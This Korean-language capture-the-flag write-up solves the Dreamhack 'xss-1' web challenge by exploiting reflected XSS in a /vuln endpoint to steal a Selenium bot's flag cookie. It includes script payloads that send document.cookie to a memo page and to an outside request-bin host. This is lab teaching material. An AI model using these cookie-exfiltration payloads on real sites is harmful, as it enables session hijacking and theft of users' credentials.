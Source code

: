 ## 📍xss-1

```
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

들어가보면 /, /vuln, /memo, /flag 4개의 페이지를 제공한다.


#### 소스코드

vuln 페이지는 이용자가 전달한 `param` 파라미터의 값을 출력한다.
![](Attachments/{BC90F34F-D2E9-4BB2-94C8-98712D5652CB}.png)

memo 페이지는 이용자가 전달한 `memo` 파라미터 값을 `memo_text`에 추가하고, `render_template` 함수를 통해 출력한다.
![](Attachments/{D5DB0D21-75EE-49F1-A59B-A3AB76EB8F65}.png)

flag 페이지는 GET 요청의 경우 이용자에게 URL을 입력받는 페이지를 제공한다.
POST 요청의 경우, 이용자가 전달한 `param` 파라미터에 값과 쿠키에 FLAG를 포함해 `check_xss` 함수를 호출한다.
![](Attachments/{3FB2C24F-6461-443E-8E00-112267906E2B}.png)

`check_xss` 함수는 `read_url` 함수를 호출해서 vuln 엔드포인트에 접속한다.
![](Attachments/{2351CE11-953A-42F5-99FD-E1B6368DE7FC}.png)


`read_url` 함수는 Selenium 웹드라이버를 사용해 쿠키를 추가하고 주어진 url에 접속하는 함수였다.
따라서 FLAG는 Selenium 봇의 쿠키에 들어가 있으므로 쿠키를 탈취해야 한다.


#### 취약점

vuln과 memo는 둘 다 이용자의 입력값을 페이지에 출력하지만, memo는 `render_translate` 함수를 사용해서 출력한다. `render_template` 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS가 발생하지 않는다.
vuln은 이용자의 입력값을 페이지에 그대로 출력하기 때문에 XSS가 발생한다.


#### 해결

vuln 엔드포인트에서 발생하는 XSS 취약점을 통해 Selenium 봇의 쿠키를 탈취한다.
(document.cookie)

memo 페이지는 이용자가 추가한 값을 출력하므로, flag 값을 확인하려면 flag 엔드포인트에서 이런 코드를 입력한다.
```javascript
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

![](Attachments/{C17C5A5F-96CF-4200-B806-B48F0973DC6E}.png)

memo 페이지에 flag 값이 출력되어 있다.
![](Attachments/{9FB04350-D727-4022-9DFA-D48C63DAEF63}.png)



혹은 외부에서 접근 가능한 웹 서버 주소를 넣어서 탈취한 쿠키를 확인할 수도 있다.
https://tools.dreamhack.games/main
```javascript
<script>
	location.href = "EXAMPLEHOST.request.dreamhack.games/?memo=" + document.cookie;
</script>
```
![](Attachments/{A6D2590A-D1D7-416C-BAF0-46C62414563F}.png)

